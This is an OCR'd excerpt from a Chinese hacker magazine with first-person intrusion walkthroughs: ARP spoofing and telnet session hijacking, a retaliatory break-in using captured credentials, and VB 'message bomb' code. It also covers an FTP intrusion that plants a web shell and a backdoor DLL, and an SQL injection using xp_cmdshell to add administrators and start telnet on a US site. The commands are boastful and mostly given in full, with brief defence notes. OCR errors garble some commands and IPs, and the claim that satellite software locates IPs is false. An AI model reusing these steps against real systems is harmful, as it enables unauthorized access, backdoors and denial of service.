

### 所需软件

我们已经知道了原理，那大家会问，怎样才可以在同一交换机下进行ARP欺骗和转包进行劫持呢？我们可利用3个软件来实现以上的工作。

- (1) Arpspoof：可用来进行ARP欺骗（dsniff工具包里的）。
- (2) Fragrouter：一个转包工具。
- (3) Hunt：一个会话劫持工具。

（注：以上软件光盘中有收录）

### 实例

以上原理和应具备的软件都介绍了，下面我拿个会话劫持实例做下分析。
在我的学习班里，网络就是在一个交换机上，这样的网络很多，正好满足了我们的实验的环境。下面我就开始利用劫持技术来盗取信息：

```
用户的IP：107.0.0.1（Win2000系统）
服务器IP：107.0.0.2（Linux系统）
攻击者IP：107.0.0.3（Linux系统）
```

#### 渗透过程：

因为我的机器是Llinux系统，所以首先要得到107.0.0.1的MAC地址：

```
#ping 107.0.0.1
64 bytes from 107.0.0.1: icmp_seq=0 ttl=128 time=1.3ms
64 bytes from 107.0.0.1: icmp_seq=0 ttl=128 time=1.3ms
......
对方的ttl的生存期是128，即那是个Win2000系统，再对服务器IP进行套取MAC地址：
#ping 107.0.0.2
```

HackerXFiles 61

## 网络安全入门：黑客入门实例精讲

```
64 bytes from 107.0.0.2: icmp_seq=0 ttl=255 time=3.8ms
64 bytes from 107.0.0.2: icmp_seq=0 ttl=255 time=3.8ms
```

得到两个机器的MAC地址后，就开始进行ARP欺骗了，这里我研究的是广播地址上主机保持周边计算机信息方式固有的安全弱点，它是使用伪造的MAC地址和IP地址伪装成ARP高速缓存中的另外一台主机的技术。所以我可以伪造其它主机的MAC地址，通过伪造ARP，回应获取LAN内的一台主机发送给另外一台主机的数据包。
我们用Arpspoof来进行ARP的欺骗：

```
# ./arpspoof -i eth0 -t 107.0.0.1 107.0.0.2 
00:88:CC:06:05:43 00:E0:4A:3c:2D:E6 0806 42: arp reply 107.0.0.2 is-at 00:88:CC:06:05:43
00:88:CC:06:05:43 00:E0:4A:3c:2D:E6 0806 42: arp reply 107.0.0.2 is-at 00:88:CC:06:05:43
```

目的是告诉107.0.0.1服务器，107.0.0.12的MAC地址为00:88:CC:06:05:43，也就是攻击者的MAC地址。这样，107.0.0.1发向107.0.0.12的数据包都重定向到107.0.0.3。

```
# ./arpspoof -i eth0 -t 107.0.0.2 107.0.0.1
00:88:CC:06:05:43:0:50:56:59:2a:a2 0806 42: arp reply 107.0.0.1 is-at 00:88:CC:06:05:43
00:88:CC:06:05:43 0:50:56:59:2a:a2 0806 42: arp reply 107.0.0.1 is-at 00:88:CC:06:05:43
```

上面是告诉107.0.0.2用户，107.0.0.1的MAC地址为00:88:CC:06:05:43（我的MAC地址），这样107.0.0.2发向107.0.0.1的数据包都重定向到我的机器107.0.0.3上面。
以上我完成了ARP欺骗，为了使客户和服务器正常通信，需要将攻击者机器的IP转发功能打开，使其起到一个路由器的功能，所以要用到数据转发，转发客户和服务器间的数据包。这里我用Fragrouter来实现包的转发功能：

```
# ./fragrouter -B1
107.0.0.1.1558 > 107.0.0.2.80: S 2776465951:2776465951(0) win 16384 <mss 1460,nop,nop,sackOK> (DF)
107.0.0.2.80 > 107.0.0.1.1558: S 35432263:35432263(0) ack 2776465952 win 5840 <mss 1460,nop,nop,sackOK> (DF)
107.0.0.1.1558 > 107.0.0.2.80: ack 35432264 win 17520 (DF)
107.0.0.1.1558 > 107.0.0.2.80: P 2776465952:2776466230(278) ack 35432264 win 17520 (DF)
107.0.0.2.80 > 107.0.0.1.1558: ack 2776466230 win 6432 (DF)
107.0.0.2.80 > 107.0.0.1.1558: . 35432264:35433724(1460) ack 2776466230 win 6432 (DF)
```

从显示上来看，107.0.0.1与107.0.0.2之间的通信已被重定向到我机器上了。下面的工作就是用hunt来实现会话劫持了。
会话劫持有两种方式：积极的攻击方式和消极的攻击方式。积极的攻击方式中，黑客需寻找动态的会话并且接管它，这种方式需使用户下线，不再参与会话。消极的攻击方式中，黑客劫持会话，但隐藏在后方观察并记录发送和接收的信息。下面我采用混合型攻击方式：先监视会话，然后劫持会话。

62 黑客X档案

# 黑客入门实例精讲

```
#./hunt
starting hunt
--- Main Menu --- rcvpkt 3: tree/
alloc:63/64
l/w/r):list/watch/reset connections
u) host up tests
a) arp/simple hijack (avoids ack storm if arp used)
s) simple hijack
d) daemons rst/arp/sniff/mac
o) options
x) exit
*> 0
0) 107.0.0.1[1364] ==> 107.0.0.2[23]
    \\ 107.0.0.1(telnet 到服务器上
    \\ 监听会话
*> w
0) 107.0.0.1[1364] ==> 107.0.0.2[23]

choose conn> 0
dump [src|dst|both]>b
print src/dst same characters y/n>y

Login: conan  Password: 12345

Last login: Sun Jun 15:45:05:21 from 107.0.0.1
Last login: Sun Jun 15:45:05:21 from 107.0.0.1
Last login: Sun Jun 15:45:05:21 from 107.0.0.1
```

```
$ls

hahahehe
```

正好有用户刚登录，用户名为conan，口令也为12345，用户登录后执行了ls命令。

```
> s
0) 107.0.0.1[1364] ==> 107.0.0.2[23]
choose conn> 0
dump connection y/n>n[!]>
dump [src|dst|both]>b
print src/dst same characters y/n>y
CTRL-C to break
__press any key__ Enter the command string you wish executed or [cr]> mkdir hehei
mkdir...
# ACK storm detected -- reset after 45s
hunt: possible ACK storm: 0) 107.0.0.2[23] ==> 107.0.0.1[1364]
#ls
```

这里攻击者已将mkdir...命令插入到用户与服务器的会话中，还可执行一些中间命令，如创建用户、删除文件等。如果劫持的是超级用户，那就可以乘虚而入了，那么如何防范这种ARP欺骗呢？

### 基本防范

- （1）不要把网络安全信任关系建立在IP基础上或MAC基础上。
- （2）使用静态ARP，禁止自动更新，使用手动更新。
- （3）定期检查ARP请求，使用ARP监视工具，防止ARP的欺骗。

以上就是简单利用ARP欺骗来劫持我们想得到的信息。看到了吧！你身边的人根本不需要什么木马或费劲盗取管理员的密码，就可轻松对你进行监视，是不是比嗅探器还厉害啊！

## 网络安全急先锋 黑客入门实例精讲
http://www.hacker.com.cn

## IDSec00p 反攻击


作为一个网络安全爱好者，我也曾被黑客攻击过，但被别人攻击后，大家一定要找到相应的措施给黑客加以反击，以不让黑客逍遥法外。下面这个案例分析，就是我被攻击后的反击战。

我的Linux服务器作为自己平时的测试对象，所以常时间挂在网上，不料这天竟遭到了蠕虫袭击。

2003年5月12日 北京时间23:27:03

我的入侵检测系统Snort突然报警提示有来自202.110.23.45（真实IP已被隐藏）的扫描，发送了一个ICMP数据包探测系统是否在线：

```
23:26:13  202.110.23.45 snort[1852]:
[1:474:1] ICMP superscan echo Classification:
Attempted Information Leak [Priority: 2]: {ICMP}
202.110.23.45 -> xx.xx.xx.xx
```

然后紧接的几秒钟，黑客用shellcode溢出成功后，会绑定一个root shell为39168的端口。以下是入侵记录：

```
23:27:03 - 202.110.23.45 sends
"STAT" to UDP 933 of honeypot attempting to
buffer overflow rpc.statd
23:27:06 - 202.110.23.45 sends
"STAT" to UDP 933 of honeypot attempting to
buffer overflow rpc.statd
23:27:09 - 202.110.23.45 sends
"STAT" to UDP 933 of honeypot attempting to
buffer overflow rpc.statd
23:27:12 - 202.110.23.45 sends
```

```
"STAT" to UDP 933 of honeypot attempting to
buffer overflow rpc.statd
23:27:15 - 202.110.23.45 sends
"STAT" to UDP 933 of honeypot attempting to
buffer overflow rpc.statd
```

入侵记录每隔3秒连续发送5次exploit，时间排序好精确啊！据记录来看，攻击程序应该是 autorooter。autorooder 是个蠕虫，它扫描和分析对方的Server版本都是自动的。

当黑客溢出成功后，连接上绑定在39168端口的一个rootshell。他添加了两个用户bbs和admin，其中bbs用户的uid和gid是0，恩！这个用户现在已经有root权限，可干任何事情！

以下黑客添加用户的记录过程：

```
cd /; id;
uid=0 (root) gid=0 (root)
w
5:27pm up 51 days, 10:16, 2 users,
load average: 0.00, 0.00, 0.00
USER TTY FROM LOGIN@
IDLE JCPU PCPU WHAT
root tty1 - 60ct
2 42.28m 27.28 27.27 /usr/local/bin/
root tty2 - 16Nov
2 5days 0.25s 0.14s -bash
/usr/sbin/adduser -g 0 -u 0 bbs /
*添加uid和gid为0的用户*/
passwd *******
New UNIX password: 15052570
Retype new UNIX password: 15052570
Changing password for user bbs
```

64 黑客X档案

# 黑客入门实例精讲

```
passwd: all authentication tokens updated successfully
/usr/sbin/adduser admin
passwd: 未知名称
New UNIX password: 15052570
Retype new UNIX password: 15052570
Changing password for user admin. /添加普通用户
passwd: all authentication tokens updated successfully
```

添加完用户后，黑客断开了连接，然后用新用户 Telnet，再次远程登陆到蜜罐里。

```
Red Hat Linux release 6.1
Kernel 2.2.14-5.0 on an i586
login: kk
Password:
Login incorrect /失败。看来不让 root权限用户登陆
login: admin
Password:
[conan@test conan]$ su - bbs
Password:
[root@test conan]# w /哈哈这回可以了
5:29pm up 51 days, 10:18, 3 users,
load average: 0.00, 0.00, 0.00
USER TTY FROM LOGIN@
IDLE JCPU PCPU WHAT
root tty1 6:05pm
2:42:30m 27:26 27:27 /usr/local/bin/
root tty2 16Nov
2:5days 0:25s 0:14s -bash
```

北京时间23:44:52

好了，有了以上罪证，还怕对付不了你？于是我就开始收集要得到的有用信息，如下：

- 1.攻击者IP：202.110.23.45
- 2.添加一个普通用户：admin
- 3.添加一个root级别用户：bbs

好了，知道了攻击者的IP地址，我们就可对其地址施行反击败，首先我得看看他机器是什么配置，有什么可利用的漏洞。

因为干这种分析漏洞的工作在Linux下有点力不从心（当然在Win2k下最合适不过），所以我登陆了Win2k服务器，操起了SuperScan看看他都开了什么端口（图1）。



一看结果，差点晕过去，天啊！他的机器干什么啊，开了这么多端口，而且还开了80（Web）服务，难道？我首先怀疑这是个被人侵过的肉鸡。于是我打开了IE浏览器，然后填上攻击者的IP地址，My God！我又差点晕过去，竟然是某省的信息港网站，心想这家伙不简单啊，还能入侵信息港网站。

至此，我觉得越来越有意思了，于是想看看我的实力到底有没有他厉害，所以马上对这个信息港进行了全方位渗透！

北京时间24:09:21

经过了漫长的30多分钟的渗透，结果很令我失望！虽然这个信息港开了这么多端口，但每个服务的安全性都很高，所以依我的实力没有办法入侵这个信息港，不过这个黑客是怎么入侵的呢？于是我总结了以下几条可能性：

- （1）攻击者很可能就是这个信息港的人；
- （2）利用现在较流行的数据库注射入侵

# 黑客入门实例精讲

的；

- (3) 黑客利用了某种劫持技术对信息港进行入侵。

好了，经过以上的分析后，我再来逐个进行研究，如下：

(1) 如果是第一个可能性，那么我也无能为力。因为对方是信息港，所以网速的带宽一定非常大，要使用 DDoS 攻击的话，得需要很多肉鸡，非常麻烦！而且我相信，信息港的人不会干这种事吧，呵呵！真是难办啊，所以先排除第 1 个可能性。

2.经过 30 分钟的仔细检查，没发现他有数据库等服务（奇怪！一个信息港怎么会没数据库等服务呢？先别想那么多了！）。所以黑客根本不能利用数据库注射的技术来入侵，那么就剩下第 3 个可能性了。

3.现在的劫持技术很流行，尤其是 SMB 的会话劫持技术，而且成功率相当高，我估计黑客就是靠这种方法入侵的，但这样在任何帐号的情况下还得去做陷阱网页，去欺骗信息港，这样很费时间，那怎么办呢？

对了！我突然想到刚才到的一个较有用的信息 —— 他在我机器上建立的 2 个帐号。那么黑客能不能在这个信息港上用这个用户啊！于是我就开始进行最后的尝试！

### 北京时间 24:19:05

此时，我利用第一个 bbs 用户去登陆他的 3389 端口，结果别人失望，此用户不好使。于是我祈祷 admin 这个用户和密码一定要好使啊！最后终于如愿了，真的，那个黑客果然用了 admin 这个用户在信息港的机器上，结果还是 administrator 的权限呢！

好了，不说废话，切入正题，后来我查看了日志，看看黑客有没有留下什么痕迹，结果让我吃了一惊，竟然有这么多的用户登陆了这台服务器，于是我就开始筛选可能是入侵者地址的……

### 北京时间 24:34:05

经过 10 多分钟的筛选，发现众多帐号的 IP 基本都是国内的 IP 地址。但是有一个地址例外——64.68.xx.xx。具我观察 IP 来看，这个好家是个美国的 IP 地址。于是我用查看 IP 的工具查找他的具体位置，结果只显示他的地址是美国，不过我想看看他的具体位置，于是我就利用了“全球卫星定位系统”来查看一下这个地址的正确位置在哪儿（图 2）。


结果经过卫星定位系统软件发现黑客的具体位置是美国加州。呵呵！好家伙，竟然攻击到我们中国来了，不过他为什么攻击我的服务器呢？可能是我网页内容太吸引人了吧，呵呵！好吧，看我怎么来对付你。

注意：图 9 是卫星定位软件 Wings pro（光盘中有收录）。它可通过卫星来详细定位某 IP 的详细位置，这款软件是英文版，因为功能强大，扫描地理详细位置较清楚，所以是注册版本的，大家如果喜欢可下载使用。

### 北京时间 24:49:12

确定黑客的真正位置后，我 Ping 了一下他，他还在线上（图 3）。

再利用 SuperScan 查看，结果根据对方所开的端口来看，很象一台个人电脑，于是我就

66 黑客X档案


# 黑客入门实例精讲


进行渗透。他的机器很坚固，也没有任何重大漏洞，最后按照上面收集的用户和密码对他的机器进行测试，结果也没成功，这回我心里还算有点安慰，他没有都用那个帐号和密码。

北京时间 24:59:01

现在我也困了，如果再运用高级技巧入侵，又怕他下线白忙一场，所以不想再攻击他了。但我绝对不能这么轻易放过他，最后打算给他一点小小的警告。因为从他 TTL 值和端口开放的情况来看，确定他是个 Win2k 用户，于是想到了 Win2k 下的发消息命令。格式如下：

```
C:\>net send IP "信息内容"
```

我发的信息如下：

```
C:\>net send 127.0.0.1 "你好"
The message was successfully sent to 127.0.0.1
```



作者：龚超  OICQ:15052570
主页：http://www.tisc.net.cn/jc/

于是我打算做个这样的消息炸弹来教训他。于是打开VB6.0，建立了一个窗体，然后在里面添加一个Timer1控件（图4）。

代码部分极其简单，如下：

```vb
Private Sub Command1_Click()
    Timer1.Enabled = True
End Sub

Private Sub Command2_Click()
    Timer1.Enabled = False
End Sub

Private Sub Timer1_Timer()
    Shell ("cmd.exe /c net send " & Text1.Text & " " & Text2.Text), vbHide
End Sub
```

这段代码就是向对方发送消息的。

好了，经过以上步骤，消息炸弹终于做完。于是我在信息框里写上警告的话，然后点击“发送”按钮，这条信息就无限被发送了。经过数分钟后，再Ping一下对方，呵呵，已经ping不通了，说明对方已经收到消息炸弹，掉线了！

## 如何防范这种攻击？

一般地，默认Win2k系统都启动了messenger这个服务，他是用来发送消息的服务，如果想防止攻击，就要禁止messenger服务，方法如下：`net stop messenger`






入侵也是一门学问，不是简单利用溢出或使用某种默认漏洞就可轻松成功的，如果能用这些方法入侵一台服务器，那么被入侵的机器管理员早就应该被炒鱿鱼了。现在自称黑客的有90%以上的都是30秒黑客，这是什么意思呢？就是他们一般利用已知漏洞进行直接攻击，如果直接攻击失败就放弃的那种人。
相信会入侵服务器的读者大部分都是利用80、139、1433、3389等常用端口去入侵。其实21这个端口在入侵时也起了很大作用。大家一定都认为21（FTP）这个服务就是用来传送文件的吧，其实不是这样，下面我就演示一下，怎么利用21端口进行一次成功入侵。

## 事发起因

某日，我在上网听歌，突然听到QQ响起，接到信息一看，原来是一个朋友发来的请求信息，内容如下：

> 你好，豪哥！能帮我一个忙吗？我刚刚在网上扫描到一个服务器，结果扫到了对方的一个用户和密码。我用139去连接，连接成功，但却传不上去文件，这是怎么回事呢。能帮我解决这个问题吗？对方的服务器IP是64.10.XX.XX，用户名是twins，密码为空。
谢谢！

呵呵！听起来挺有意思，那我就来看看是怎么回事吧！


这里真实的服务器IP以被我改为64.10.23.46

我先用x-scan做了个大概扫描分析。进入DOS环境：

```
c:\>xscan -host 64.10.23.46 -all -p
X-Scan v2.3 - 网络安全漏洞扫描器
安全焦点: http://www.xfocus.org,http://www.xfocus.net
正在加载插件...
成功载入所有插件.
正在检测"64.10.23.46"
[64.10.23.46]: 正在检测"路由信息"
[64.10.23.46]: 发现"路由信息"
[64.10.23.46]: 正在检测"开放端口"
[64.10.23.46]: 端口21开放: FTP (Control)
[64.10.23.46]: 端口80开放: HTTP, World Wide Web
[64.10.23.46]: 端口139开放: NETBIOS Session Service
[64.10.23.46]: 正在检测"NT-Server弱口令"
[64.10.23.46]: 发现NT-Server弱口令
twins/[空口令]
[64.10.23.46]: "NT-Serve弱口令"扫描完成. 发现1
[64.10.23.46]: 扫描全部完成。
C:\>
```

看来对方的服务器果然有弱口令用户，但凭我的经验，能够成功连接却不能Copy文件有两种可能。

- 1.对方开了病毒防火墙，你传的木马有可


会被查杀。
2.用户的权限很低，导致文件不能成功传送。

根据最后分析，我确定这个twins用户的权限很小，可能是我分析的第2种问题。那我们就先来验证一下吧！现在确定一下有用的信息，如下：

- 1.对方是Win2k+IIS5.0服务
2.开放了21、80、139等有利用价值的端口
3.这个服务器有弱口令用户（twins密码为空）

OK，收集完了以上有用的信息，现在可开始入侵了。

首先进行IPC$连接：

```
c:\>net use \\64.10.23.46\ipc$ "" /user:twins
命令成功完成。
c:\>
```

哈！这个用户能正常连接，来看看Copy文件是不是可行。

```
c:\>copy d:\winshell.exe \\64.10.23.46\c$
拒绝访问。
以复制0个文件。
c:\>
```

哦！Copy文件果然不成功，真是权限低的问题啊！，看来139入侵这个方案不能执行了。我们再看一下前面收集的有用信息，他还开了21端口，太好了！可以看看这个用户有没有写入的权限，如果有，那就发达了。

```
c:\>ftp
ftp>open 64.10.23.46
Connected to 64.10.23.46
220 nehe Microsoft FTP Service (Version 5.0)
User (64.10.23.46:(none)): twins
331 Password required for twins.
Password:
230 User twins logged in.
好了利用这个用户可以成功的从21端口进入，看看他机器里面有什么东西。
ftp>dir
200 PORT command successful.
150 Opening ASCII mode data connection for /bin/ls.
<DIR> index.html
<DIR> news.html
<DIR> bbs.html
<DIR> girl.html
<DIR> look.asp
226 Transfer complete.
ftp>
```

不会吧！对方的机器竟让用户直接进入他的Web目录，如果我们有写入的权限，就可用网页木马控制他了。

```
ftp>put d:\cmdasp.asp
200 PORT command successful.
150 Opening ASCII mode data connection for cmdasp.asp
226 Transfer complete.
ftp: 1276 bytes sent in 0.00Seconds 1276000.00Bytes/sec
ftp>
```

天啊！竟然成功了，胜利即将向我招手（呵呵！太得意了吧）。

接下来打开IE浏览器看看我们的木马


吧！果真，可爱的网页木马终于露脸了(图1)。
下面我们找到scripts目录（图2）。
找到了scripts目录还怕你跑？于是再次进入ftp传送后门。

```
ftp> put d:\idq.dll
200 PORT command successful.
150 Opening ASCII mode data connection for dig.dll.
226 Transfer complete.
ftp: 32768 bytes sent in 0.00Seconds 32768000.00Kbytes/sec.
ftp>
```

OK，传送成功，现在我们把这个后门文件Copy到scripts目录里（图3）。
现在就可用ISPC进行连接了：

```
c:\>ispc 64.10.23.46 /scripts/idq.dll
Start to connect to the server...
We Got It!
Please Press Some <Return> to Enter Shell...
Microsoft Windows 2000 [Version 5.00.2195]
<C> 版权所有 1985-2000 Microsoft Corp.
c:\WINNT\system32>
```


现在我已成功进入到他机器内部了，而且还是System权限，现在想干什么就干什么了！我们就加个后门吧。

```
c:\WINNT\system32>net user jiangchao 12345 /add
命令成功完成。
c:\WINNT\system32>net localgroup administrators jiangchao /add
命令成功完成。
c:\WINNT\system32>
```

我们已经在他机器里建立了一个jiangchao（具有system权限）的用户。然后给他做个后门，这里我利用系统自带的tlntadmin.exe这个工具。

```
c:\WINNT\system32>tlntadmin.exe
请在下列选项中选择一个：
（0）退出这个应用程序
（1）列出当前用户
（2）结束一个用户的对话
```

70 黑客X档案


我把telnet的端口设置成521端口，最后我启动了telnet服务，每次就可以telnet 64.10.23.46 521 来登陆了。

## 后 记

一切完毕后，我用QQ发给那个菜鸟朋友信息：让他用用户jiangchao、密码12345对521端口进行连接。之后他回复说：“哇！你好厉害！能不能教我是怎么做的呢？”哎，我根本就没用厉害的人侵方法，只是利用Ftp进行入侵而已！

# 一次ASP配置不当造成的人侵

在美伊战争初期，相信全世界对美国的做法十分不满（英国除外），其实我也对他们的做法相当气愤！呵呵，我决定以信息战的方式帮伊拉克对付美国。
好！说做就做。于是我在休息日从网络中搜寻美国有关商业的服务器，最终找到一个较大的新闻网站，里面写了大量关于美国如何使用高科技来轻松消灭伊拉克的内容，极其夸张！看完后更加气愤了。于是决定拿这个新闻网站的服务器开刀。

经过我多方分析、测试，发现他的服服务器64.235.X.10在安全防范方面非常出色，内部的防火墙禁止了所有端口对外的连接（除80端口），如图。


HackerXFiles    71

我说怎么只能看到网页呢！而且正常扫描也得不到对方的任何信息。但按常理来说，像这样的系统都是多台机器协同工作，弱点就是防火墙对Lan(局域网)对外连接的限制不设置。既然这样，我只能使攻击范围扩大了。

2003-03-14美国洛杉矶时间：00：12（AM）

我对这个服务器（64.135.X.10）所在的C段IP地址的主机进行了全方位扫描。结果让人不敢相信，竟然所有的IP都设置了拒绝对外服务功能。最后我连临c段地址的IP都试用了几个，结果还是一无所有。心里暗暗佩服这个c段地址的安全性。不管怎么说，先把扫描记录保存下来以后分析。

2003-03-14美国洛杉矶时间：08：42（AM）

经过一夜的思考，决定今天再来测试，我再次对C段IP地址进行扫描。结果跟昨晚一样，不过怎么总觉得跟昨晚的比好象主机多了呢？于是拿出昨晚保存的扫描记录跟今天的对照。结果发现今天扫描的主机多出4、5台。这是怎么回事呢？我猜这4、5台电脑一定是有人接入局域网的笔记本电脑（因为笔记本电脑是人们随身带着为了办公方便而使用的，而且很少有人给笔记本电脑打补丁，所以安全性是相当低）。想到这里我兴奋的不得了，于是把认为是笔记本电脑的主机分离出来，然后对这5个笔记本电脑的IP地址进行扫描，结果漏洞百出。最后成功入侵了一个Win2k主机（64.135.X.224），并且得到了Administrator权限，入侵过程如下：

因为这个网段的IP都有防火墙，所以都ping不通！于是我用IE打开64.135.X.224，看看这个笔记本有没有什么Web服务，谁知进去一看，还真的有，而且还是一个新闻发布系统，http://64.135.X.224/index.asp?id=253。

既然如此，我要看看你的ASP安全性怎样？于是我在“id=253”后面加了一个分号（即http://64.135.X.224/index.asp?id=253; ），回车后页面还是正常显示。这就表明他没把分号过滤，这意味这我可利用sp_addlogin添加SQL用户了。

2003-03-14美国洛杉矶时间：09：18（AM）

## 下面是实战过程：

- 1. 在SQL数据库里添加一个jiangchao的用户。

    ```http
    http://64.135.X.224/index.asp?id=253;use master;exec dbo.sp_addlogin jiangchao;
    ```

2. 回车后因为空格的unicode表示为%20，所以在IE浏览器里显示如下格式：

    ```http
    http://64.135.X.224/index.asp?id=253 use%20master;exec%20dbo.sp_addlogin%20user;
    ```

3. 现在，我已在数据库里添加了一个jiangchao的用户了。

    添加完用户后，再给这个用户添加一个密码。

    ```http
    http://64.135.X.224/index.asp?id=253;use aster;exec dbo.password null 12345,user;
    ```

4. 用户和密码都设置完毕。因为我们的用户权限还小，所以下面来提升权限。

    ```http
    http://64.135.X.224/index.asp?id=253;use master;exec dbo.sp_addsrvrolemember user sysadmin;
    ```

在SQL下，sysadmin用户相当于Win2k下的administrator，他们都具有系统管理员权限。

我们现在已在他数据库里添加了管理员等级的用户，接下来给他开启telnet服务。首先打开SQL查询分析器，并且填写对方服务器的IP、用户名和密码。连接成功后，使用xp_cmdshell来操作。
添加win2k用户：

```
xp_cmdshell 'net user jiangchao 12345 /add'
```

提升用户为system权限：

```
xp_cmdshell 'net localgroup administrators jiangchao /add'
```

打开telnet服务：

```
xp_cmdshell 'net start tlntsvr'
```

2003-03-14 美国洛杉矶时间：09:58(AM)

